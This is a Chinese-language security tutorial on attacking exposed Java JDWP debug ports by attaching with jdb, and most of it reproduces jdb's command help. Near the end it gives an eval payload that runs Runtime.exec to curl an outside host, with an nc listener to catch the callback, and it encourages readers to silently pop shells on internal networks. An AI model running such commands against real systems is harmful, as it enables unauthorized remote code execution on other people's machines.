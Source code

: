 # JDWP攻击示例

JPDA(`Java Platform Debugger Architecture`) 是 Java 平台调试体系结构的缩写，通过 JPDA 提供的 API，开发人员可以方便灵活的搭建 Java 调试应用程序。

大概在2015年左右用tangscan扫到了很几次jdwp服务端口，当时只是简单的测试过这个服务。

这个jdwp服务提供来对java程序调试的功能，只要有程序启动时使用了jdwp参数且端口绑定在内网或者共网上时候我们就可以利用这个服务来执行java代码片段弹shell。比较典型的有tomcat启动的时候如果是以jpda方式启动的话就会启动一个8000端口用于远程调试。

<img src="https://oss.javasec.org/images/20190918164155_580.png" alt="img" />



假设我们需要远程调试一段Java程序，如Test.java的main方法：

<img src="https://oss.javasec.org/images/20190918161911_104.png" alt="img" />

如果要远程调试我们就需要使用到远程调试参数，我们使用IDEA远程调试的时候会提示我们配置如下参数：

<img src="https://oss.javasec.org/images/20190918161657_473.png" alt="img" />

所以我们只需要在执行:java Test 之前添加我们的调试参数即可。

首先在内网找一个测试环境，让他帮我们调试下这个Test.java，在启动的时候加上如下参数：

java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=*:8003 Test

如下图：

<img src="https://oss.javasec.org/images/20190918162359_476.png" alt="img" />

测试环境IP是：192.168.88.203，于是我们使用java自带的jdb(Java调试工具)来连接他的8003端口。

<img src="https://oss.javasec.org/images/20190918162732_784.png" alt="img" />

jdb自带了很多命令，可以通过命令来查看各种调试信息，详情可以自己执行help命令查看。

```bash
** 命令列表 **
connectors                -- 列出此 VM 中可用的连接器和传输
 
run [class [args]]        -- 开始执行应用程序的主类
 
threads [threadgroup]     -- 列出线程
thread-- 设置默认线程
suspend [thread id(s)]    -- 挂起线程 (默认值: all)
resume [thread id(s)]     -- 恢复线程 (默认值: all)
where [| all] -- 转储线程的堆栈
wherei [| all]-- 转储线程的堆栈, 以及 pc 信息
up [n frames]             -- 上移线程的堆栈
down [n frames]           -- 下移线程的堆栈
kill-- 终止具有给定的异常错误对象的线程
interrupt-- 中断线程
 
print-- 输出表达式的值
dump-- 输出所有对象信息
eval-- 对表达式求值 (与 print 相同)
set=-- 向字段/变量/数组元素分配新值
locals                    -- 输出当前堆栈帧中的所有本地变量
 
classes                   -- 列出当前已知的类
class-- 显示已命名类的详细资料
methods-- 列出类的方法
fields-- 列出类的字段
 
threadgroups              -- 列出线程组
threadgroup-- 设置当前线程组
 
stop in.[(argument_type,...)]
                          -- 在方法中设置断点
stop at:-- 在行中设置断点
clear.[(argument_type,...)]
                          -- 清除方法中的断点
clear:-- 清除行中的断点
clear                     -- 列出断点
catch [uncaught|caught|all]|-- 出现指定的异常错误时中断
ignore [uncaught|caught|all]|-- 对于指定的异常错误, 取消 'catch'
watch [access|all].-- 监视对字段的访问/修改
unwatch [access|all].-- 停止监视对字段的访问/修改
trace [go] methods [thread]
                          -- 跟踪方法进入和退出。
                          -- 除非指定 'go', 否则挂起所有线程
trace [go] method exit | exits [thread]
                          -- 跟踪当前方法的退出, 或者所有方法的退出
                          -- 除非指定 'go', 否则挂起所有线程
untrace [methods]         -- 停止跟踪方法进入和/或退出
step                      -- 执行当前行
step up                   -- 一直执行, 直到当前方法返回到其调用方
stepi                     -- 执行当前指令
下一步                      -- 步进一行 (步过调用)
cont                      -- 从断点处继续执行
 
list [line number|method] -- 输出源代码
use (或 sourcepath) [source file path]
                          -- 显示或更改源路径
exclude [, ... | "none"]
                          -- 对于指定的类, 不报告步骤或方法事件
classpath                 -- 从目标 VM 输出类路径信息
 
monitor-- 每次程序停止时执行命令
monitor                   -- 列出监视器
unmonitor <monitor#>      -- 删除监视器
read-- 读取并执行命令文件
 
lock-- 输出对象的锁信息
threadlocks [thread id]   -- 输出线程的锁信息
 
pop                       -- 通过当前帧出栈, 且包含当前帧
reenter                   -- 与 pop 相同, 但重新进入当前帧
redefine-- 重新定义类的代码
 
disablegc-- 禁止对象的垃圾收集
enablegc-- 允许对象的垃圾收集
 
!!                        -- 重复执行最后一个命令-- 将命令重复执行 n 次
#-- 放弃 (无操作)
help (或 ?)               -- 列出命令
version                   -- 输出版本信息
exit (或 quit)            -- 退出调试器: 带有程序包限定符的完整类名: 带有前导或尾随通配符 ('*') 的类名: 'threads' 命令中报告的线程编号: Java(TM) 编程语言表达式。
支持大多数常见语法。
 
可以将启动命令置于 "jdb.ini" 或 ".jdbrc" 中
位于 user.home 或 user.dir 中</monitor#>
```

因为他使用的是暂停模式，所以我们可以直接在jdb中执行stepi命令来执行当前指令，否则我们需要使用stop 命令来设置断点了，然后我们就可以使用eval或者print指令来调用Runtime去执行系统命令：`eval java.lang.Runtime.getRuntime().exec("curl p2j.cn:8003").getInputStream())`

<img src="https://oss.javasec.org/images/20190918163235_140.png" alt="img" />

我们需要在远程服务器上nc下8003端口即可接收受攻击的机器curl过来的请求：

<img src="https://oss.javasec.org/images/20190918163600_499.png" alt="img" />

也就是说我们可以在别人debug的时候使用jdb attach进去然后悄无声息的弹个shell回来玩了，这种场景在内网通常是比较常见的遇到这个服务的时候记得试试吧。

jdb参考资料：

[http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html)

https://www.javatpoint.com/jdb-expression

https://www.tutorialspoint.com/jdb/jdb_quick_guide.htm
